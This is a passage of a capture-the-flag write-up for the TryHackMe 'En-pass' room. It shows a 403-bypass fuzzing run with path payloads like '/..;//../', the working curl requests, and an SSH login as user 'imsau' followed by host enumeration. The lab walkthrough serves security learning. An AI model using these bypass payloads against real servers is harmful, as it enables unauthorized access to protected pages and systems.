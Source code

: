 **Alright, let's try [`4-ZERO-3`](https://github.com/Dheerajmadhukar/4-ZERO-3) to fuzz that:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# /opt/4-ZERO-3/403-bypass.sh -u http://enpass.thm:8001/403.php --exploit
[...]
Payload [ /..//..;/ ]: Status: 404, Length : 274 
Payload [ /../;/ ]: Status: 404, Length : 274 
Payload [ /../;/../ ]: Status: 200, Length : 2563  👌
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────╮
 ╰─> PAYLOAD : curl -k -s 'http://enpass.thm:8001/403.php/../;/../' -H 'User-Agent: Mozilla/5.0'
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────╯
Payload [ /..;%2f ]: Status: 404, Length : 274 
Payload [ /..;%2f..;%2f ]: Status: 404, Length : 274 
Payload [ /..;%2f..;%2f..;%2f ]: Status: 404, Length : 274 
Payload [ /..;/../ ]: Status: 403, Length : 1123 
Payload [ /..;/..;/ ]: Status: 403, Length : 1123 
Payload [ /..;// ]: Status: 403, Length : 1123 
Payload [ /..;//../ ]: Status: 200, Length : 917  👌
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────╮
 ╰─> PAYLOAD : curl -k -s 'http://enpass.thm:8001/403.php/..;//../' -H 'User-Agent: Mozilla/5.0'
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────╯
Payload [ /..;//..;/ ]: Status: 403, Length : 1123 
[...]
```

**Looks like payload `/..;//../` bypassed the 403!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/En-pass/images/Pasted%20image%2020230101011759.png)

`Glad to see you here.Congo, you bypassed it. 'imsau' is waiting for you somewhere.`

- Found system user: `imsau`

**Let's SSH into `imsau` with the SSH key!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# ssh -i key imsau@$RHOSTS 
Enter passphrase for key 'key': 
[...]
$ /bin/bash
imsau@enpass:~$ whoami;hostname;id;ip a
imsau
enpass
uid=1002(imsau) gid=1002(imsau) groups=1002(imsau)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:23:68:4f:7f:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.153.216/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::23:68ff:fe4f:7fc9/64 scope link 
       valid_lft forever preferred_lft forever
```
